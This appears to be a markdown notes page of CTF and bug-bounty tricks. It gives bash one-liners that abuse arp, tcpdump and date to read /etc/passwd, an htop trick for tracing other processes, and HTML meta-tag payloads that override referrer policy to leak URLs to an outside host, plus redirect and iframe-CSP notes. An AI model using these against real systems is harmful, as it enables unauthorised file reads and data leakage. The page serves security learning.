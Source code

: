 ## BASH/MISC

1. **Bash Commands that can do Local read file**
    * arp -v -f '/etc/passwd'
    * tcpdump -c 1 -vvvvvv -V '/etc/passwd'
    * date '+%s' -f '/etc/passwd'
    * od filename 

2. **Using htop/top command to seek into other process memory**

    * htop/top command can be used to strace a process sys calls. Steps:
        * Run htop
            ```bash
            root@fc7e34d51219:/# htop
            ```
        * Goto process you need to see working of 
        * Press ‘s’ . It will show strace of the corresponding process

3. **The mysterious ^D(Ctrl+D)**

    * LIke ^C , ^D is also used to Exit a program but ^D sends an EOF on standard input to exit the program while ^C uses SIGINT to exit. 

        Run `perl` in interactive mode and see it in action

        ```bash

        root@fc7e34d51219:/ctf# perl -
        print(23);
        print("hello??");
        print("hmmm");
        ```
        If we use ^C it will exit normally without executing any, but using ^D will execute the commands. Now it's not only with perl, many command line utilities follow same.


## WEB

1. **HTML - Meta tag tricks**
    
    Meta tags can be used to override referrer policy
    ```php

    <?php 
      header("Referrer-Policy: no-referrer");
    ?>

    <html>
      <body>
          <meta name="referrer" content="unsafe-url">
          <img src="http://zeta2.free.beeceptor.com" >
      </body>
    </html>
    ```

    The referrer policy added by PHP will be ignored. So if we have HTML-injection we can basically override referrer policy.


2. **Meta tags redirect**
    We can use meta tags to redirect to different site

    ```html

    <meta http-equiv="refresh" content="0;URL='http://example.com/'" />
    ```

3. **Iframe: Override CSP In IFRAME's**

    * Lets say http://example.com has some CSP setting. 
    * Iframe also has a csp attribute which allows us to implement csp on the frame source site.
    
    ```html
    <iframe csp="script:none" src='example.com'>
    ```
    The CSP which is more strict (frame’s attribute or coming from src tag) will be chosen as CSP within iframe. More on https://w3c.github.io/webappsec-cspee/


## New Tools to improve Bug Bounty flow

* HTTP Parameter finding : [https://github.com/0xsapra/fuzzparam](https://github.com/0xsapra/fuzzparam)
* Logic bugs finding : [https://github.com/ngalongc/openapi_security_scanner](https://github.com/ngalongc/openapi_security_scanner)
